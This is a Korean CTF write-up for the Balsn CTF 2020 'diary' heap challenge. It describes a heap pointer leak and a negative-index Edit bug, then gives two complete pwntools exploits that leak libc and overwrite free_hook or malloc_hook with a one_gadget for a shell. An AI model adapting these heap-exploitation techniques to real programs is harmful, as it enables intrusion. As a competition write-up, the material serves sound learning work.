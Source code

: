 ```yaml
---
layout: post
title: Balsn CTF 2020 diary write-up
categories: ctf-write-up
tag: [heap, ctf]
---
```


이 문제는 우분투 19.04의 Heap 문제이다.  힙 문제라 그런지 보호기법은 모두 걸려있다.
![image](https://user-images.githubusercontent.com/43925259/99204639-a3993980-27f9-11eb-873b-4116547fedd2.png)

먼저 이 프로그램엔 2가지의 버그가 존재한다.

첫 번째 버그는 name 값 바로 뒤에 힙 포인터들을 저장함으로써 발생하는 `Heap leak`이다.

두 번째 버그는 Edit 기능에 있는 `Integer issue`이다.

나는 우분투 19.04가 없어서 18.04에서 먼저 익스를 진행했다. BSS 영역에 존재하는 자기 자신을 가리키는 pointer를 이용하여 bss 영역에 원하는 값을 넣을 수가 있었다.

free가 되었는지 확인하는 변수와 힙 포인터들을 덮기 위해선 stdin과 stdout을 덮어야 했다. 이때 이 영역을 'AAAAAA....' 값을 저장해놓은 힙 주소로 덮었더니 printf가 동작하지 않았지만 puts가 동작했다.

이를 이용하여 0x80을 8개 할당하고 8개 해제함으로써 힙에 생기는 libc 주소를 leak하고 `free_hook`을 `one_gadget`으로 덮음으로써 익스를 했다.

코드는 다음과 같다.
```python
from pwn import *

p = process('./diary')
e = ELF('./diary')
libc = e.libc

def get_name():
    p.sendafter(': ', '1')

def Malloc(length, content):
    p.recv()
    p.send('2')
    p.recv(timeout=1)
    p.send(str(length))
    p.recv(timeout=1)
    p.send(content)

def View(page):
    p.recv()
    p.send('3')
    p.recv(timeout=1)
    p.send(str(page))

def Edit(page, content):
    p.recv()
    p.send('4')
    p.recv(timeout=1)
    p.send(str(page))
    p.recv(timeout=1)
    p.send(content)
    
def Free(page):
    p.recv()
    p.send('5')
    p.recv(timeout=1)
    p.send(str(page))

p.sendafter(': ', 'A' * 0x20)

for i in range(8):
    Malloc(0x80, 'B' * 0x80)

for i in range(7, -1, -1):
    Free(i)

get_name()
p.recvuntil('A' * 0x20)
leak = u64(p.recv(6).ljust(8, '\x00'))
print hex(leak)

payload = ''
payload += p32(leak >> 32)
payload += 'A' * 0x10
payload += p64(leak)
payload += 'A' * 8
payload += p64(leak)
payload += 'A' * 0x28
payload += p64(leak + 4)
payload += p64(0) * 28
Edit(-11, payload)

View(0)
leak = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = leak - 0x3ebca0 
one_gadget = libc_base + 0x4f3c2

print hex(leak)
print hex(libc_base)

payload = ''
payload += p32(leak >> 32)
payload += 'A' * 0x10
payload += p64(leak)
payload += 'A' * 8
payload += p64(leak)
payload += 'A' * 0x28
payload += p64(libc_base + 0x3ecd98)
payload += p64(0) * 28
Edit(-11, payload)
Edit(0, 'A' * 4 + p64(0) * 361 + p64(one_gadget))

Free(0)
p.interactive()
```

first  blood를 할 수 있을 줄 알고 신나있었지만, 우분투 19.04에선 동작하지 않았다. 18.04와 다르게 19.04는 printf와 puts 둘다 동작하지 않아서 leak이 불가능했다.

그래서 익스 방법을 바꿔서 bss영역이 아닌 stdin 영역을 이용했다. stdin 영역의 뒤를 보면 `malloc_hook`과 `main_arena` 영역이 존재한다.

여기서 `main_arena`에 fastbin을 관리하는 영역이 존재한다. 이 영역에 원하는 힙 주소를 써주면 다음 malloc시에 우리가 써준 영역에 할당 가능하다. (단 fake size를 만들어 주어야 함)

이를 이용하여 chunk를 `overlapping`하여 leak을 하고 `malloc_hook`을 `one_gadget`으로 덮었다.

아마 이것은 언인텐드 풀이일 것이다.
```python
from pwn import *

#p = process('./diary')
p = remote("diary.balsnctf.com", 10101)
e = ELF('./diary')
libc = e.libc

def get_name():
    p.sendafter(': ', '1')

def Malloc(length, content):
    p.sendafter(': ', '2')
    p.sendafter(': ', str(length))
    p.sendafter(': ', content)

def View(page):
    p.sendafter(': ', '3')
    p.sendafter(': ', str(page))

def Edit(page, content):
    p.sendafter(': ', '4')
    p.sendafter(': ', str(page))
    p.sendafter(': ', content)
    
def Free(page):
    p.sendafter(': ', '5')
    p.sendafter(': ', str(page))

p.sendafter(': ', 'A' * 0x20)

for i in range(4):
    Malloc(0x80, '\x00' * 12 + p64(0) + p64(0x41) + (p64(0) + p64(0x61)) * 5)

get_name()
p.recvuntil('A' * 0x20)
leak = u64(p.recv(6).ljust(8, '\x00'))
print hex(leak)

Malloc(0x80, '\x00' * 12 + p64(leak + 0x250) + p64(0) + p64(leak + 0x2d0) + p64(0))
Malloc(0x80, '\x00' * 12 + p64(leak + 0x2e0) + p64(0) + p64(leak + 0x360) + p64(0))
Malloc(0x80, '\x00' * 12 + p64(leak + 0x370) + p64(0) + p64(leak + 0x78) + p64(0))
Malloc(0x80, '\x00' * 12 + p64(0) + p64(0x0) + (p64(0) + p64(0x61))*5)

for i in range(7, -1, -1):
    Free(i)

Malloc(0x30, 'A' * 4 + p64(0x41)) # 8

payload = ''
payload += 'A' * (0x22c - 0x20)
payload += p64(0)
payload += p64(0x71)
payload += p64(0)
payload += p64(0)
payload += p64(0) # malloc_hook
payload += p64(0) * 3
payload += p64(leak) * 4    # 0x20 ~ 0x50
payload += p64(leak + 0x50) # 0x60
payload += p64(leak + 0x70) # 0x70
Edit(-6, payload)

Malloc(52, 'A' * 52) # 9

View(9)
libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x1e4ca0
print hex(libc_base)

off = [0xe237f, 0xe2383, 0xe2386, 0x106ef8]

one_gadget = libc_base + off[3]

Malloc(0x50, '\x90' * 4 + p64(0x61) + p64(0) + p64(0x71) + p64(leak + 0x240) + p64(libc_base + 0x1e4c10))
Malloc(0x60, p64(0))
Malloc(0x60, '\x90' * 12 + p64(one_gadget))

p.sendafter(': ', '2')
p.sendafter(': ', '10')
p.interactive()
```
